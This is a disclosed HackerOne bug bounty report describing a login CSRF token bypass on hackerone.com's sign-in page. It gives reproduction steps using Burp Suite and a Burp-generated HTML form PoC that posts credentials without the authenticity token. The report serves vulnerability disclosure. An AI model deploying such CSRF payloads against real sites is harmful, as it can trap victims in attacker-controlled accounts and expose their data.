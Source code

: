 # Login CSRF vulnerability on hackerone.com

## Report Details
- **Report ID**: 834366
- **URL**: https://hackerone.com/reports/834366
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-03-30T07:29:15.341Z
- **Disclosed**: 2020-06-12T18:08:43.616Z

## Reporter
- **Username**: what_web
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
###Summary
Hi. We found a CSRF token bypass on the Hacker One login page.
So, this report describes Hacker One login CSRF Token Bypass.

###Exploitation process
Hacker One uses the authenticity_token token during login to prevent CSRF.
However, the authenticity_token token is not properly verified, so an attacker can log in via CSRF without the authenticity_token token.
In other words, Hacker One thinks that it implemented CSRF token through authenticity_token token, but it is not.

###Steps To Reproduce
1. Go to `https://hackerone.com/users/sign_in`
2. While logging into your account, grab packets through the buff suit.
3. Take the HTML code format from burp suite -> Engagement Tools -> Generate CSRF POC.
4. Delete the authenticity token.
5. Forward the request and CSRF exploited successfully and the modified data changed successfully :)

###PoC
```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://hackerone.com/users/sign_in" method="POST">
      <input type="hidden" name="user[email]" value="youremail" />
      <input type="hidden" name="user[password]" value="yourpassword" />
      <input type="hidden" name="user[remember_me]" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Impact

The victim may add sensitive payment information to the attacker's new account 
{F765737}

the victim's IP may be recorded in the attacker's account, resulting in brute force and identity theft.
█████

## Attachments
- TESTCSRF22.PNG
